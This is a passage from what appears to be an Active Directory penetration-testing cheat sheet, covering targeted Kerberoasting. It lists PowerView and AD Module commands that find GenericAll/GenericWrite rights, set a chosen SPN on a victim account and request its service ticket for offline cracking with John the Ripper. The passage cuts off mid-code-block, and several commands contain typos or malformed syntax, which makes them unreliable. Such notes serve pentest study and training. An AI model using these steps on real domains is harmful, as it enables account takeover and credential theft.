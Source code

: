 > > > > > ```bash
> > > > > ./john <HashFilePath> --wordlist=wordlist.txt 
> > > > > ```
> >
> > :one::three: ***TGS Kerberoasted*** using ***SPN***
> >
> > > :information_desk_person: GenericWrite and GenericAll are sufficient to set target user's SPN to Custom value
> > >
> > > :information_desk_person: Machine name and SPN name are unique across the domain 
> > >
> > > >  **Enumeration** 
> > > >
> > > > > **PowerView_Dev**
> > > > >
> > > > > > Look for GenericAll and/or GenericWrite permissions
> > > > > >
> > > > > > ```powershell
> > > > > > Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match <groupname>}
> > > > > > ```
> > > > > >
> > > > > > 
> > > > > >
> > > > > > Check User SPN value 
> > > > > >
> > > > > > ```powershell
> > > > > > Get-DomainUser -Identity <username> | select ServicePrincipalName
> > > > > > ```
> > > > >
> > > > > ***AD Module***
> > > > >
> > > > > > ```powershell
> > > > > > Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName 
> > > > > > ```
> > > >
> > > > **Exploit** 
> > > >
> > > > > **Set SPN Value**
> > > > >
> > > > > > ***Powerview Dev***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Set-DomainObject -IDentity <username> -Set @{serviceprincipalname='<machinename/SPNname>'}
> > > > > > > ```
> > > > > > >
> > > > > > > 
> > > > > >
> > > > > > ***AD Module***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Set-ADUser -Idnetity <username> -ServicePrincipalNames @{Add='<Machinename/SPNName>'}
> > > > > > > ```
> > > > >
> > > > > ***Request Service Ticket***
> > > > >
> > > > > > ***AD module***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Add-Type -AssemblyName System.IdentityModel -New-Object System.IdentityModule.Tokens.KerberosRequestorSecurityToken -ArgumentList "<MAchineName/SPNNAme>"
> > > > > > > 
> > > > > > > klist 